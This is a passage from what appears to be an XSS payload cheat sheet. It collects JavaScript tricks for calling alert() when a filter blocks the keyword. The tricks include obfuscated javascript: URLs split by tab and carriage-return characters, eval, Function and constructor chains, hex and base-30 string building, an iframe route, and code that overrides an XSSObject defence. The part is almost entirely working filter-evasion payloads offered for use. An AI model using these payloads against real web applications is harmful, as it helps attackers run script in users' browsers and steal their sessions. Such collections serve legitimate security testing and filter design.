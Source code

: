 Oneliner:

```javascript
a = () => {
  c = 0;
  for (i in self) {
    if (/^a[rel]+t$/.test(i)) {
      return c;
    }
    c++;
  }
};
self[Object.keys(self)[a()]]("1");
```

From [@quanyang](https://twitter.com/quanyang/status/1078536601184030721) tweet.

```javascript
prompt`${document.domain}`;
document.location = "java\tscript:alert(1)";
document.location = "java\rscript:alert(1)";
document.location = "java\tscript:alert(1)";
```

From [@404death](https://twitter.com/404death/status/1011860096685502464) tweet.

````javascript
eval("ale" + "rt(0)");
Function("ale" + "rt(1)")();
new Function`al\ert\`6\``();

constructor.constructor("aler" + "t(3)")();
[].filter.constructor("ale" + "rt(4)")();

top["al" + "ert"](5);
top[(8680439).toString(30)](7);
top[/al/.source + /ert/.source](8);
top["al\x65rt"](9);

open("java" + "script:ale" + "rt(11)");
location = "javascript:ale" + "rt(12)";

setTimeout`alert\u0028document.domain\u0029`;
setTimeout("ale" + "rt(2)");
setInterval("ale" + "rt(10)");
Set.constructor("ale" + "rt(13)")();
Set.constructor`al\x65rt\x2814\x29```;
````

Bypass using an alternate way to trigger an alert

```javascript
var i = document.createElement("iframe");
i.onload = function () {
  i.contentWindow.alert(1);
};
document.appendChild(i);

// Bypassed security
XSSObject.proxy = function (obj, name, report_function_name, exec_original) {
  var proxy = obj[name];
  obj[name] = function () {
    if (exec_original) {
      return proxy.apply(this, arguments);
    }
  };
  XSSObject.lockdown(obj, name);
};
```